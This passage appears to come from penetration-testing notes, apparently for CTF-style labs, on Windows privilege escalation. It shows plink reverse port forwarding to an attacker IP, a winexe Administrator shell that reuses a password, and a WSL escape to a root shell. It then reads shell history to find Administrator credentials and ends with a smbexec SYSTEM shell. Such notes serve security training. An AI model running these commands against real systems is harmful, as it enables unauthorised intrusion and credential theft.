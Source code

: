 ```shell

#in victim machine
plink.exe -l root -pw passwordHere -R 445:127.0.0.1:445 10.10.14.2
#access port 445 of victim machine from port 445 of attacker machine

#we get attacker shell in victim session
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"
#winexe to run Windows commands on Linux
#127.0.0.1 as we are using port forwarding
#password reuse

whoami
#Administrator
```

## Windows Subsystem for Linux

```shell
#on windows shell
where -R C:\Windows bash.exe

where -R C:\Windows wsl.exe
#to find bash.exe or wsl.exe
#for getting into wsl

C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\bash.exe
#we get linux shell now

whoami
#root

#we cannot access the Windows files yet

python -c "import pty;pty.spawn('/bin/bash')"

#using linux privesc

ls -la
#check files

history
#check history
#this contains creds for Administrator

#on attacker machine
smbexec.py Administrator:'passwordfound'@10.10.10.97
#gives us a semi-shell as System
```

## Impersonation and Potato Attacks
